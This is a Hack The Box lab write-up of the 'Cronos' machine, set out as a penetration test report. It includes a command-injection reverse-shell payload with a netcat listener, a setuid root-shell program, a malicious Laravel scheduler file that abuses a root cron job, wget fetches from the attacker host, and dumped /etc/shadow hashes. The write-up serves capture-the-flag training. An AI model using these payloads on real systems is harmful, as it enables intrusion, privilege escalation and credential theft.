






# Hack The Box: Cronos Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Cronos machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Cronos machine.

The specific IP address was:

- 10.10.10.13

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the Cronos machine.

\newpage

### System IP: 10.10.10.13

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.13      | **TCP:** \ **UDP:**

\newpage

**Nmap Scan Results:**

Service Scan:

```bash
nmap -vvv -Pn -p 80,53,22,53 -sC -sV -oN /HTB-boxes/Cronos/recon/nmap_all_tcp.md 10.10.10.13
```

Notable Output:

```txt
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vulnerability Scan:

```bash
nmap -vvv -Pn -p 80,53,22,53 --script vuln -oN /HTB-boxes/Cronos/recon/nmap_all_vuln.md 10.10.10.13
```

Notable Output:

```txt
80/tcp open  http    syn-ack
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
```


\newpage

#### Initial Access

**Vulnerability Exploited:** SQL Injection


**Vulnerability Explanation:**

An attacker can interfere with SQL database queries by adding an apostrophe to the login form fields. From here, an attacker can manipulate the login form and create malicious database queries. In this cas an attacker can use this vulnerability to bypass authentication.

**Vulnerability Fix:**

This vulnerability can be fixed by sanitizing the field input, disallowing the use of characters that would interfere with the execution of queries.

**Severity:** Critical

\newpage

**Exploit PoC:**

```txt
http://admin.cronos.htb/
```



```txt
http://admin.cronos.htb/welcome.php
```



Start a reverse shell listener on the attacker machine:

```txt
nc -lvnp 4321
```

The Payload:

```txt
8.8.8.8;export RHOST="10.10.14.12";export RPORT=4321;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```


We recive a shell on our attacker machine:



\newpage

**Local.txt Proof Screenshot**



**Local.txt Contents**

```txt
51d236438b333970dbba7dc3089be33b
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Sheduled Task; Modifiable Files in Path

**Vulnerability Explanation:**

There exists a scheduled task run by the root user on the Cronos machine. The problem with this is that the file that the task points to in order to run is modifiable by all users. An attacker can modify the files mentioned in the task and run malicious code with root permission. In the case of the Cronos machine, I was able to execute system commands as the root user because of this vulnerability.

**Vulnerability Fix:**

Restrict read, write, and executable permissions to the root user for the files mentions in scheduled tasks run by the root user.

**Severity:** Critical

\newpage

**Exploit Code:**

With the laravel command scheduler, we can find out how to execute shell commands and schedule when they are executed:

Reference: *https://laravel.com/docs/8.x/scheduling*

We can edit *Kernel.php*

```txt
-rw-r--r-- 1 www-data www-data 819 Apr  9  2017 Kernel.php
```

First we create and compile a shell to execute. This way we are able to persist our privileged session.

On your attacker machine, run the following commands:

```bash
echo -e "int main(void){\n	setuid(0);\n	setgid(0);\n	system(\"/bin/bash\");\n}" > shell.c
gcc -o rootshell shell.c
```

Now we can make our *Kernel.php* file. Here is the code that I used:

```php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/rootshell;chmod 4755 /tmp/rootshell')->everyMinute();
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

Now we can upload our files to the tartget machine. 

On your attacker machine, run the following command:

```bash
python3 -m http.server 8000
```

On the target machine, run the following commands:

```bash
cd /tmp/
wget http://10.10.14.12:8000/rootshell
cd /var/www/laravel/app/Console
wget http://10.10.14.12:8000/Kernel.php
mv Kernel.php.1 Kernel.php
```

After waiting for a couple minutes, we can see the file permissions changed:




Specifically, the permissions changed from:

```txt
-rw-r--r--  1 www-data www-data 16232 Mar 19 23:39 rootshell
```

To:

```txt
-rwsr-xr-x  1 root root 16232 Mar 19 23:39 rootshell
```

Now we can execute the file:

```bash
cd /tmp/
./rootshell
```

\newpage

**Proof Screenshot Here:**



**Proof.txt Contents:**

```txt
1703b8a3c9a8dde879942c79d02fd3a0
```

\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the Cronos machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the Box should not have to remove any user accounts or services from the system.

\newpage

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.13   |  51d236438b333970dbba7dc3089be33b | 1703b8a3c9a8dde879942c79d02fd3a0

\newpage

## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
bind:x:112:119::/var/cache/bind:/bin/false
```

\newpage

## Appendix - /etc/shadow contents

```txt
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5fL6A0:17247:0:99999:7:::
daemon:*:17212:0:99999:7:::
bin:*:17212:0:99999:7:::
sys:*:17212:0:99999:7:::
sync:*:17212:0:99999:7:::
games:*:17212:0:99999:7:::
man:*:17212:0:99999:7:::
lp:*:17212:0:99999:7:::
mail:*:17212:0:99999:7:::
news:*:17212:0:99999:7:::
uucp:*:17212:0:99999:7:::
proxy:*:17212:0:99999:7:::
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVUZhms.:17264:0:99999:7:::
backup:*:17212:0:99999:7:::
list:*:17212:0:99999:7:::
irc:*:17212:0:99999:7:::
gnats:*:17212:0:99999:7:::
nobody:*:17212:0:99999:7:::
systemd-timesync:*:17212:0:99999:7:::
systemd-network:*:17212:0:99999:7:::
systemd-resolve:*:17212:0:99999:7:::
systemd-bus-proxy:*:17212:0:99999:7:::
syslog:*:17212:0:99999:7:::
_apt:*:17212:0:99999:7:::
lxd:*:17247:0:99999:7:::
mysql:!:17247:0:99999:7:::
messagebus:*:17247:0:99999:7:::
uuidd:*:17247:0:99999:7:::
dnsmasq:*:17247:0:99999:7:::
sshd:*:17247:0:99999:7:::
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHSZmg7/:17247:0:99999:7:::
bind:*:17264:0:99999:7:::
```